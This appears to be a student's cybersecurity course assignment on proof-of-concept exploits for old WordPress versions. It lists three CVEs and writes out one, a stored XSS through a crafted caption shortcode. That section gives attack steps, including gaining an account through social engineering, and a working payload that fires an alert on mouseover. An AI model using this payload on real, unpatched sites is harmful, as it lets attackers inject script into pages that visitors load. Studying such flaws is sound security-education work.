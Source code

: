 # Cybersecurity University: Week 7 Assignment
Assignment: Identify and demonstrate POCs for at least 3 exploits affecting older versions of WordPress.

**Exploits demonstrated**:
* [CVE 2015-5622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622) / [CVE 2015-5623](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623): Authenticated Stored Cross-Site Scripting (XSS)
* [CVE 2015-5714](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714): Authenticated Shortcode Tags Cross-Site Scripting (XSS)
* [CVE 2017-6817](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817): Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

## Authenticated Stored Cross-Site Scripting (XSS)

This exploit requires an attacker to have an account with posting capabilities (i.e. a minimum of Contributor level permissions). In this vulnerability, an attacker can insert arbitrary Javascript via a specially-crafted shortcode onto a page or a post.

### Recreating the Exploit
1. Gain access to an account with at least posting-level permissions via social engineering or another exploit. (Alternatively, if the site allows unauthenticated users to post via some special configuration, then an account is not needed.)
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor (not the Visual editor) to insert code similar to the following and post:

```
<a href="[caption code=">]</a><a title=" <Event-attribute-with-JS-code-here>  ">link</a>
```
which WP processes to:
```
<a href="</a><a title=" <Event-attribute-with-JS-code-here> ">link</a>
```

### Example
If an attacker puts in the following:
```
<a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">link</a>
```
WP processes this to become:
```
<a href="</a><a title=" onmouseover=alert('XSS!') ">link</a>
```
So, when the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS!" Of course, one could replace this JS code with something far more malicious.

### Demonstration

The following video demonstrates this exploit: [link goes here]

### Other Details
* **CVEs**: 2015-5622 and 2015-5623
* **Type**: XSS
* **Affects**: WordPress <=4.2.2
* **Patched**: WordPress 4.2.3
